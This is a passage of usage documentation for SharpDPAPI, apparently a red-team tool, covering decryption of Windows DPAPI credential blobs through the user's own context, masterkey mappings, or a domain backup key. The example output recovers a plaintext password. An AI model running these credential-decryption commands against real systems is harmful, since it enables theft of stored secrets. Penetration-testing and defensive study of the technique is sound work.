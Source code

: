 The `/unprotect` flag will use CryptUnprotectData() to decrypt the blob without masterkeys needed, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

Decrypt a blob using CryptProtectData() (the `/unprotect` flag):

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob.bin /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using CryptUnprotectData() for decryption.

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0
